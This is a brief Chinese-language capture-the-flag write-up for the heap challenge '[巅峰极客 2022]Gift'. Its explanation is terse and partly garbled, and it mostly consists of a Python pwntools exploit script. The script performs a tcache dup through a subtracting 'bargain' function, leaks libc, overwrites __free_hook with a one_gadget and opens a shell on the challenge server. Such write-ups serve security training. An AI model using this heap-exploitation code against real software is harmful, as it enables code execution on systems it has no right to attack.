





# [巅峰极客 2022]Gift



这个是他的一个主要代码在我们分析的时候会发现有功能的只有三个函数体因此我们主要看这里几个就可以了

因此我们查看数据的时候会发现几个漏洞点一个是那么我们先看源代码









在这几个函数体中我们会发现bargain这个函数他有着要给对堆块数据的一个相减的作用因此我们可以使用这个函数实现要给tacahe dup的一个攻击手法

因此我们这附上核心代码

```py
io = remote("node4.anna.nssctf.cn", 28962)
choose(1, b"a" * 0xa0 + p64(0) + p64(0x471))  # 0
choose(1, "bbbbb")  # 1
choose(1, "cccc")  # 2

remove(0)
remove(2)
bargain(2, -0xc0)

choose(1, "/bin/sh")  # 3
choose(1, "eeee")  # 4
# gdb.attach(io)
choose(1, "ffff")  # 5
choose(1, b"g" * 0xd0 + p64(0) + p64(0x21))  # 6
# debug()

remove(4)
check(4)
ru("cost: ")
libc_base = int(ru('\n')[:-1], 10) - 0x3ebca0
slog("libc_base", libc_base)

libc = ELF("/home/fofa/桌面/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6")
free_hook = libc.sym['__free_hook'] + libc_base
system_addr = libc.sym['system'] + libc_base
slog("system_addr", system_addr)
remove(5)
remove(1)
choose(2, b'\x00' * 0x38 + p64(0x111) + p64(free_hook - 0x10))  # 7
choose(1, "aaa")  # 8
one_gadgets = [0x4f2a5, 0x4f302, 0x10a2fc]
shell = one_gadgets[1] + libc_base
choose(1, p64(shell))  # 9
remove(3)
io.interactive()
```

